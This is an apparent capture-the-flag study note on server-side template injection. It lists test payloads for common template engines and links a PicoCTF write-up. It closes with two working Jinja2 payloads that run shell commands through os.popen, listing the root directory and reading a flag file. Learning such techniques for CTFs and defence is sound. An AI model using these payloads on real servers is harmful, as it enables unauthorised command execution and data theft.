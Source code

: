 ## SSTI
There are somethings that need to be remembered:
1. Short for Server-Side Template Injection. It happens when a web application lets users to submit data that gets processed by a template engine on the server without proper validation.
2. Template engines are used to generate dynamic content.
3. Common template engines and their corresponding test payloads:
    Jinja2 (Python Flask/Django): {{ 7*7 }}
    Freemarker (Java): ${7*7}
    Velocity (Java): #set($a = 7*7)${a}
    Thymeleaf (Java): ${7*7}
    Twig (PHP Symfony): {{ 7*7 }}
    Smarty (PHP): {$7*7}
    Mako (Python): <% print 7*7 %>
4. https://anudeepreddy.dev/notes/Challenges/PicoCTF/2025/SSTI1
5. {{request.application.__globals__.__builtins__.__import__('os').popen('ls /').read()}}
6. {{request.application.__globals__.__builtins__.__import__('os').popen('cat /challenge/flag').read()}}
